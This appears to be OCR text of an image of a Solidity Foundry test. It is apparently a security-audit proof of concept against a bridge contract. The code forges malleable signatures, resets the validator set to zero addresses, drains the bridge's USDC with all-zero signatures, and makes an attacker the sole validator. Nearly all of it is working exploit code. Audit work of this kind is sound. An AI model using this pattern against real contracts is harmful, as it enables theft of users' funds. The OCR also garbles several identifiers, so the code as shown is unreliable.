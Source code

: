 ```solidity
    vm.expectRevert("Already withdrawn");
    bridge.withdraw(amount, nonce, validatorSet, validatorSet.validators,sigsCache);
    ValidatorSet memory newValidatorSet = ValidatorSet(1, s_newValidators,s_newPowers);
    vm.expectEmit(true, false, false, true);
    emit ValidatorSetUpdatedEvent(newValidatorSet.epoch, newValidatorSetvalidators, newValidatorSet.powers);
    Signature[] memory updateValidatorSigs = _getUpdateValidatorSignature(newValidatorSet, s_validatorKeys);
    bridge.updateValidatorSet(newValidatorSet, validatorSet, validatorSetvalidators, updateValidatorSigs);
    for (uint256 i = 0; i < updateValidatorSigs.length; ++i) {
        updateValidatorSigs[i].s = uint256(
            115792089237316195423570985008687907852837564279074904382605163141518161494337
        ) - updateValidatorSigs[i].s;
        updateValidatorSigs[i].v = updateValidatorSigs[i].v == 27 ? 28 : 27;
    }
    ValidatorSet memory emptyValidatorSet = ValidatorSet(2, s_zeroValidators,s_newPowers);
    bridge.updateValidatorSet(
        emptyValidatorSet, newValidatorSet, newValidatorSet.validators,_getUpdateValidatorSignatures(emptyValidatorSet, s_newValidatorKeys)
    );
    vm.expectRevert("New validator set epoch must be greater than the currentepoch");
    bridge.updateValidatorSet(newValidatorSet, emptyValidatorSet,emptyValidatorSet.validators, updateValidatorSigs);
    console.log("but what if validator set is updated to zero addressvalidator set with non-zero power?");
    address[] memory validatorArr = new address[](1);
    validatorArr[0] = PWNER;
    uint256[] memory powerArr = new uint256[](1);
    powerArr[0] = uint256(1000000);
    ValidatorSet memory pwnValidatorSet = ValidatorSet(3, validatorArr,powerArr);
    Signature[] memory emptySigs = new Signature[](3);
    emptySigs[0] = Signature(0, 0, 0);
    emptySigs[1] = Signature(0, 0, 0);
    emptySigs[2] = Signature(0, 0, 0);
    console.log("anyone can submit bad signatures to steal bridge funds");
    changePrank(pwner);
    emit log_named_uint("bridge balance before", IERC20(USDC_ADDRESS)balanceOf(address(bridge)));
    emit log_named_uint("pwner balance before", IERC20(USDC_ADDRESS).balanceO(pwner));
    bridge.withdraw(IERC20(USDC_ADDRESS).balanceOf(address(bridge)), 0,emptyValidatorSet, emptyValidatorSet.validators, emptySigs);
    emit log_named_uint("pwner balance after", IERC20(USDC_ADDRESS).balanceO(pwner));
    emit log_named_uint("bridge balance after", IERC20(USDC_ADDRESS).balanceO(address(bridge)));
    vm.expectEmit(true, false, false, true);
    emit ValidatorSetUpdatedEvent(pwnValidatorSet.epoch, pwnValidatorSetvalidators, pwnValidatorSet.powers);
    bridge.updateValidatorSet(pwnValidatorSet, emptyValidatorSet,emptyValidatorSet.validators, emptySigs);
    console.log("or take over the bridge as a solitary validator");
}

function _getUpdateValidatorSignatures(ValidatorSet memory newValidatorSet, uint256[] memory currValidatorKeys)
    internal
    view
    returns (Signature[] memory)
{
    Signature[] memory signatures = new Signature[](s_validators.length);
    bytes32 newCheckpoint =
        keccak256(abi.encode(newValidatorSet.validators, newValidatorSetpowers, newValidatorSet.epoch));
    Agent memory agent = Agent("a", newCheckpoint);
    bytes32 digest = keccak256(abi.encodePacked("\x19\x01",LOCALHOST_DOMAIN_HASH, hash(agent)));
```